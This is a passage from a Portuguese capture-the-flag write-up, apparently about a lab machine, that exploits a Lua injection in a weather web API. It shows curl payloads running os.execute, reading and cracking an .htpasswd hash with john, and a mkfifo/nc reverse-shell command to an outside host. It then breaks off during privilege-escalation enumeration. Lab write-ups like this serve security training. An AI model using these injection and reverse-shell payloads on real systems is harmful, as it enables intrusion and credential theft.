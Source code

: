 A injeção final, que permitiu execução remota de código na máquina foi o resultado abaixo:

```bash
$ curl -G --data-urlencode "city=London') os.execute('ls -la') x=('" http://10.10.10.218/weather/forecast
{"code": 500,"error": "unknown city: Londontotal 20
drwxr-xr-x 2 root wheel 512 Nov 25 11:27 .
drwxr-xr-x 24 root wheel 512 Nov 24 09:55 ..
-rw-r--r-- 1 root wheel 47 Sep 16 15:07 .htpasswd
-rw-r--r-- 1 root wheel 386 Sep 17 20:56 index.html
-rw-r--r-- 1 root wheel 78 Nov 25 11:38 robots.txt
```

A partir desta execução consegui ler o arquivo `.htpasswd`, que possui o hash da senha para acesso ao website que, utilizando o **john**, consegui crackeá-la a usando o dicionário **rockyou.txt**.

```bash
$ cat .htpasswd
webapi_user:$1$vVoNCsOl$lMtBS6GL2upDbR4Owhzyc0
  
$ john --wordlist=/usr/share/wordlists/rockyou.txt --format=md5crypt-long .htpasswd
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt-long, crypt(3) $1$ (and variants) [MD5 32/64])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
iamthebest (webapi_user)
1g 0:00:00:00 DONE (2021-02-19 17:09) 3.571g/s 10628p/s 10628c/s 10628C/s sexy..14789632
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Para obter um shell reverso, executei a seguinte chamada HTTP:

```bash

curl -G --data-urlencode "city=London') os.execute('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f') x=('" http://10.10.10.218/weather/forecast

```

## User flag

Ao executar o `linpeas.sh` observado que o usuário **r.michaels** possui em execução a mesma web API LUA utilizada no acesso inicial. A ideia seria obter um shell reverso com a conta do usuário em questão da mesma forma que o acesso inicial foi obtido, porém a exploração utilizada anteriormente não funcionou conforme esperado. Isso nos leva a crer que esta versão da API foi corrigida, conforme podemos notar também o path **devel** no caminho do arquivo `weather.lua` em execução na chamada.

```plaintext
r.michaels 185 0.0 0.0 34992 1964 ? Is 5:56AM 0:00.00 /usr/libexec/httpd -u -X -s -i 127.0.0.1 -I 3001 -L weather /home/r.michaels/devel/webapi/weather.lua -P /var/run/httpd_devel.pid -U r.michaels
-b /home/r.michaels/devel/www
```

### bozohttpd  
